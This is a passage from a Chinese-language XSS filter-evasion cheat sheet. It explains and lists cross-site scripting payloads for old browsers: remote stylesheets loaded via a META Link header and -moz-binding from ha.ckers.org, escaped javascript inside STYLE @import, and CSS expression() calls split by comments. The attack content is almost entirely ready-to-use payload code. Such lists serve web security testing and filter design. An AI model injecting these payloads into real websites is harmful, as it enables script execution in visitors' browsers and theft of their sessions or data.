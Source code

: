 * * *

## 远程样式表 3

它仅仅可以工作在 Opera 8.0 (no longer in 9.x) ，但是是非常的狡猾。 Opera 8.0 (no longer in 9.x) 。根据 RFC2616 规定，设置一个连接头不是 HTTP1.1 规定的一部分，但是很多浏览器仍然允许它（例如 Firefox and Opera）。这个技巧是我们可以设置一个 http 头（与常规 http 头没有什么不同，只是 Link: [`ha.ckers.org/xss.css`](http://ha.ckers.org/xss.css); REL=stylesheet）。这样带有 xss 代码的远程向量将运行 javascript。他并不被支持在 FireFox。

```
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet"> 
```

* * *

## 远程样式表 4

它是仅仅工作在 Gecko 渲染引擎。并且需要绑定一个 XUL 文件在页面。令人讽刺的是 Netscape 认为 Gecko 是更加安全的，因此绝大多是网站会受到这个攻击。

```
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE> 
```

* * *

## 分隔 javascript 在 STYLE 标签

这个 xss 在 ie 浏览器中会造成无线循环

```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE> 
```

* * *

## STYLE 属性中使用注释去分隔表达式

提出被 Roman Ivanov

```
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))"> 
```

* * *

## IMG 样式的表达式

这是上面 xss 向量的混合体。但是它是展示了 STYLE 标签被分隔有多困难。同样它也会在 ie 下造成循环弹窗。

```
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'> 
```

* * *

## STYLE 标签（仅支持老版本的 Netscape）

